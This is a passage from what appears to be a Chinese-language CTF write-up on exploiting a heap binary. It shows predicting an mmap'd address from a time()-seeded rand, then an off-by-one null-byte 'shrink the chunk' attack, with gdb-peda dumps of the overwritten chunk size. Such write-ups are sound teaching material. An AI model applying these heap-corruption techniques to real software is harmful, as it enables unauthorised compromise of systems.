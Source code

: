 ```
}
```

可以看到list是由mmap()分配的一塊空間，而這塊空間是rand()出來的

而且srand的種子是用time()，如果我們同時連上2個session

第一個session執行4869選項取得list address，

由於time()時間一樣，所以第二個session的list會同上!!!

### shrink the chunk

在malloc()的機制裡面，當你

malloc(0x60) 跟 malloc(0x68) 其實是會分配到同一塊address

基於這個概念

我們首先 add 3個secret，size分別是0x40,0x100,0xf0，並把size 0x100的刪掉
```
malloc(0x40)
malloc(0x100)
malloc(0xf0)
free(0x100)
```
這時候的heap 會長這樣 (中間許多空白省略XDDD)
```
gdb-peda$ x/100gx 0x00603000
0x603000:	0x0000000000000000	0x0000000000000051
0x603010:	0x3131313131313131	0x3131313131313131 <- chunk1
0x603020:	0x3131313131313131	0x3131313131313131
0x603030:	0x3131313131313131	0x3131313131313131
0x603040:	0x3131313131313131	0x3131313131313131
0x603050:	0x0000000000000000	0x0000000000000111
0x603060:	0x00007ffff7dd67b8	0x00007ffff7dd67b8 <- chunk2
                        ...
0x603160:	0x0000000000000110	0x0000000000000100 <- prev_size,size
0x603170:	0x3333333333333333	0x3333333333333333 <- chunk3
                        ...
0x603260:	0x0000000000000000	0x0000000000020da1
```
然後在刪除掉size 0x40的secret，在add一個size 0x48的secret
```
free(0x40)
```
由於剛剛的概念我們知道0x48會分配到跟0x40一樣的address

但是由於size多了8個byte所以可以寫到size 0x100的prev_size

加上會在最後補一個null byte所以會把size 0x100的size覆蓋掉，like this:

```
gdb-peda$ x/100gx 0x00603000
0x603000:	0x0000000000000000	0x0000000000000051
0x603010:	0x3131313131313131	0x3131313131313131 <- chunk1
0x603020:	0x3131313131313131	0x3131313131313131
0x603030:	0x3131313131313131	0x3131313131313131
0x603040:	0x3131313131313131	0x3131313131313131
0x603050:	0x3131313131313131	0x0000000000000100 <- 原本是0x111被改成0x100
0x603060:	0x00007ffff7dd67b8	0x00007ffff7dd67b8 <- chunk2
                        ...
0x603160:	0x0000000000000110	0x0000000000000100
0x603170:	0x3333333333333333	0x3333333333333333 <- chunk3
                        ...
0x603260:	0x0000000000000000	0x0000000000020da1
```
再來看看heapinfo
```
```